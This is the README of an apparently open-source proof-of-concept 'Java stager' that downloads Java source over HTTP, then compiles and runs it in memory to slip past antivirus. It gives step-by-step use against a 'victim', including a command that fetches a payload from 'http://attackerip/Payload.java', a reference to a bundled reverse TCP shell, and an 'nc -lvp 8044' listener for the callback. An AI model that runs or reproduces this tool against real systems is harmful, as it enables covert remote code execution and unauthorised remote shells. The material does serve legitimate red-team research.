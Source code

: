 # java-stager
A PoC Java Stager which can download, compile, and execute a Java file in memory.

This is for research purposes only, do not use this where you are unauthorised to do so.

# What is this?

This is based on the work of James Williams from his talk "Next Gen AV vs My Shitty Code" available here:

https://www.youtube.com/watch?v=247m2dwLlO4&feature=youtu.be

The key parts of the talk for me are:

* Load a Stager onto victim (touches disk, but is a benign binary)
* Stager downloads raw code over HTTP (which stays in memory)
* Stager compiles raw code (also in memory)
* Stager then executes compiled code (also in memory)

His example is in .net, but in the talk he suggested that Java would be capable of the same techniques. I have implemented a raw PoC which I think matches the above techniques.

# Working with it

* Clone down the entire repository.
* Open it in an IDE which can use maven (such as NetBeans)
* The Stager, and the example payload are available in the "/src/main/java" folder.
* Alter the Stager as you would like and compile the project. I was using "clean/build" in the default profile.

The output in NetBeans Included a line like this:

`Building jar: C:\Users\cornerpirate\Documents\NetBeansProjects\java-stager\target\JavaStager-0.1-initial.jar`

To work on your victim you must upload the "JavaStager*.jar" file and the "lib" folder containing Janino from the "target" folder.

The following command will execute the stager:

`java -jar JavaStager-0.1-initial.jar`

You will be prompted with the usage as shown:

`Proper Usage is: java -jar JavaStager-0.1-initial.jar <url>`

The "url" is the only parameter that is passed to Stager. An example usage would be:

`java -jar JavaStager-0.1-initial.jar http://attackerip/Payload.java`

Your payload must be in a file called "Payload.java" and your exploit code must be in a static method called "Run". The following shows the template if you want to write your own:

```
public class Payload {
   public static void Run() {
      // Your code here
   }
}
```

I have provided an example Reverse TCP payload in the file "TCPReverseShell.java". To prevent name clashes this is not called "Payload.java" and the class name is wrong. 
The header comment in "TCPReverseShell.java" explains how to modify it to work.

You will need to host your "Payload.java" file on an HTTP server. You can use Apache if you want or simple HTTP/HTTPS services in Python2 and Python3 as per my blog:

https://cornerpirate.com/2016/12/16/simple-http-or-https-servers/

The attacker will need to start a netcat listener to catch the connection back using the standard `nc -lvp 8044` technique.


